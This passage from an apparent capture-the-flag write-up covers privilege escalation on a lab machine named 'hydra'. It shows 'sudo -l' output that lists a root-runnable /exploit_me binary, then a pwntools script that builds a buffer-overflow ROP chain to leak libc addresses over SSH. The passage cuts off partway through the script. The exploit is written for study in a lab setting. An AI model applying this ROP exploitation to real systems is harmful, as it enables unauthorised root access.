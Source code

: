 We can now go into ssh:

![](../images/Pasted%20image%2020250328182433.png)

We finally got out of the docker container, with this, let's figure out how to get into root:

```
zeeshan@hydra:~$ sudo -l
Matching Defaults entries for zeeshan on hydra:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User zeeshan may run the following commands on hydra:
    (ALL : ALL) ALL
    (root) NOPASSWD: /exploit_me
```


We got a `/exploit_me` file, let's check it:

![](../images/Pasted%20image%2020250328182732.png)

Let's download the file in our local machine and analyze it:

```
file exploit_me
exploit_me: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=589ddc7b680c9a773ae64cc2db0e877b490e943e, not stripped
```

We can use the following payload to get root:```

```python
from pwn import *

user = "zeeshan"
port = 22
host = "IP"
private_key = "id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

# Load the binary
context.binary = binary = ELF("./exploit_me", checksec=False)
_ROP = ROP(binary)


padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts) 
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

# Left-justify the returned hex so it can be unpacked.
```